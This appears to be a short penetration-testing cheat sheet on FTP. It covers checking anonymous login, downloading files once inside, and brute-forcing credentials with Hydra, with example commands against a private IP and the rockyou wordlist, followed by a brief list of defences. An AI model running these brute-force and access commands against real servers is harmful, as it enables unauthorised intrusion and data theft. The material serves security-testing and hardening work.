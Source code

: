 ```yaml
---
tags:
  - "#ftp"
  - "#scan"
  - credentials
  - "#password-cracking"
  - "#anonymous"
  - "#hydra"
---
```

---

## Testing Anonymous FTP Login

Some FTP servers allow anonymous login, which can be checked using:

```bash
ftp <target-ip>
```

When prompted for a username, enter:

```bash
anonymous
```

For the password, try an empty value or `anonymous@domain.com`.

If access is granted, the FTP server allows anonymous connections, which can expose sensitive files.

To list files after logging in:

```bash
ls
```

To download a file:

```bash
get <filename>
```

---

## Brute-Forcing FTP Credentials with Hydra

Hydra can be used to test FTP login security by brute-forcing credentials.

### a) Brute-Forcing FTP with a Known Username

If a valid username is known, use:

```bash
hydra -l <username> -P <password-list.txt> ftp://<target-ip> -t 15
```

Example:

```bash
hydra -l admin -P rockyou.txt ftp://192.168.1.100 -t 15
```

### b) Brute-Forcing FTP Without Knowing the Username

If the username is unknown, use a list of possible usernames:

```bash
hydra -L <username-list.txt> -P <password-list.txt> ftp://<target-ip> -t 15
```

Example:

```bash
hydra -L users.txt -P passwords.txt ftp://192.168.1.100 -t 15
```

---

## Preventing Unauthorized FTP Access

- **Disable anonymous FTP login** if not required.
- **Use strong passwords** to prevent brute-force attacks.
- **Limit failed login attempts** to mitigate brute-force risks.
- **Restrict FTP access** to authorized IPs only.
- **Monitor FTP logs** for unusual login attempts.
